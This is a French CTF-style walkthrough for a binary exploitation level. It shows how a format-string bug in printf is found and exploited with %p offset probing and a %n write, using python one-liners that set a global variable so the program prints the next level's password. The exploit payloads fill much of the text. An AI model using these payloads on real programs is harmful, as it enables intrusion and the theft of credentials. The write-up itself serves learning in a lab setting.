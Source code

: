 Quand on reverse l'executable
On voit que main appel la fonction n qui appel la fonction p.

n() appel fgets() qui recupere de maniere safe notre input.
puis dans la fonction notre input est utiliser en tant que format string pour printf
Ce qui en fait une vulnerabiliter.
Apres la fonction p, une variable a l'adresse 0x8049810 est stocker dans eax puis est comparer a la valeur 0x1025544.
Si eax est egal a cette valeur, alors un appel a system est executer avec comme argument:
0x8048590 = "/bin/cat /home/user/level5/.pass"

Il faut donc que l'on arrive a modifier la variable 0x8049810 pour qu'elle soit egale a 0x1025544
Apres quelque test on remarque que 0x8049810 vaut 0.

Grace a la vulnerabiliter du printf on va pouvoir utiliser une format string attack afin de modifier la valeur de m (0x8049810)
Pour se faire nous avons besoin de l'emplacement de notre buffer dans la stack au moment ou printf est executer (l'offset)

python -c "print('AAAA' + ' %p '*20)" | ./level4
ce qui devrait nous donner une liste d'adresse dont une egale a 41414141
On retient sa position qui est 12.

et on verifie si le 12e emplacement est bien notre buffer
( '%12\$x' signifie que l'on souhaite utiliser le 12eme argument de printf, donc le 12eme element sur la stack )
python -c "print('AAAA' + '%12\$x')" | ./level4

Maintenant que nous avons l'offset de notre buffer on peut passer a la suite et essayer de changer des valeurs.

On souhaite ecrire l'adresse de m dans notre buffer pour ensuite utiliser le format %n afin d'ecrire le nombre de caractere ecrit avant notre format %n dans notre variable m.
---> ("coucou%n", &nb)  --> nb = 6

1ere etape:
python -c "print('\x10\x98\x04\x08' + '%12\$x')" | ./level4
cela devrait ecrire notre adresse dans le 12eme argument.
Il manque plus qu'a ecrire X caractere et d'utiliser %n.

m doit avoir la valeur 0x1025544
ce qui correspond a 16 930 116 en decimal


On pourrait utiliser quelque chose comme ceci:
python -c "print('\x10\x98\x04\x08' + 'B'*16930116 + '%12\$n')" | ./level4

Mais la taille de notre buffer nous bloquerait pour ecrire autant de B
ce que nous pouvons utiliser est la width de printf. Si on met un format %d avec une width de 500:
%500d, printf ajoutera bien 500 caractere a notre string.

Donc si on souhaite ecrire 0x1025544 dans notre variable m il suffit d'ecrire %16930116d

Mais attention car on ecrit deja 4byte donc on le soustrait a notre valeur ce qui donne %16930112d

python -c "print('\x10\x98\x04\x08'+'%16930112d' + '%12\$n')" | ./level4
